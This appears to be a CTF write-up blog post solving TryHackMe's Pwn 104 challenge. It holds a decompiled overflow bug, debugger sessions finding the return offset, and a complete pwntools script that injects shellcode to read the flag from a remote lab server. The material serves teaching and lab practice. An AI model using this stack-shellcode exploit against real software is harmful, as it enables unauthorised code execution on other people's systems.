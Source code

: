 ```yaml
---
author: pl4int3xt
layout: post
title: Pwn 104 - Tryhackme
date: '2024-01-18'
description: "Beginner level binary exploitation challenges from Tryhackme"
categories: [Pwn 101]
tags: [binary exploitation, Tryhackme ]
---
```


Let's download the task file and decompile the binary with ghidra. `main()` has a buffer overflow in the read since `local_58` is set to 80 but `read()` reads 200 characters which are more than 80. The binary also leaks the location of the buffer.

```c
void main(void){
  undefined local_58 [80];
  
  setup();
  banner();
  puts(&DAT_00402120);
  puts(&DAT_00402148);
  puts(&DAT_00402170);
  printf("I\'m waiting for you at %p\n",local_58);
  read(0,local_58,200);
  return;
}
```

Running checksec we notice that NX (No Execute) bit is disabled meaning that stored input or data can be executed as code.
>  All we need to do is to get the offset
> * leak the buffer location 
> * subtract the length of our shellcode from the offset to create some space for our shellcode.
> * Finally call the buffer location to execute the shellcode

```shell
pl4int3xt@archlinux ~/D/p/pwn104> checksec --file=pwn104.pwn104
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   46 Symbols	 No	pwn104.pwn104
```

Let's open pwndbg with our binary and try to crash it

```shell
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
pwndbg> run
Starting program: /home/pl4int3xt/Documents/pwn/pwn104/pwn104.pwn104 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 104          

I think I have some super powers 💪
especially executable powers 😎💥

Can we go for a fight? 😏💪
I'm waiting for you at 0x7fffffffe610
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.
0x000000000040124e in main ()
```

Finally let's get our offset

```shell
pwndbg> cyclic -l laaaaaaa
Finding cyclic pattern of 8 bytes: b'laaaaaaa' (hex: 0x6c61616161616161)
Found at offset 88
```

Let's craft our python code

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Set up pwntools for the correct architecture
exe = './pwn104.pwn104'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
# context.log_level = 'debug'

# Start the executable
io = start()

# How many bytes to the instruction pointer (RIP)?
padding = 88

io.recvuntil(b'at ') # program leaks the buffer location and we need to get it
address = io.recvline() 
bufferLocation = p64(int(address, 16))

shellcode = asm(shellcraft.cat('flag.txt'))
shellcode += asm(shellcraft.exit())

payload = flat(
    shellcode,
    asm('nop') * (padding - len(shellcode)),
    bufferLocation
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendline(payload)

# Receive the flag
io.interactive()
```

Let's run our code and get the flag

```shell
pl4int3xt@archlinux ~/D/p/pwn104> python3 pwn104.py REMOTE 10.10.135.73 9004
[+] Opening connection to 10.10.135.73 on port 9004: Done
[*] Switching to interactive mode
THM{REDACTED ..}
[*] Got EOF while reading in interactive
$ 
```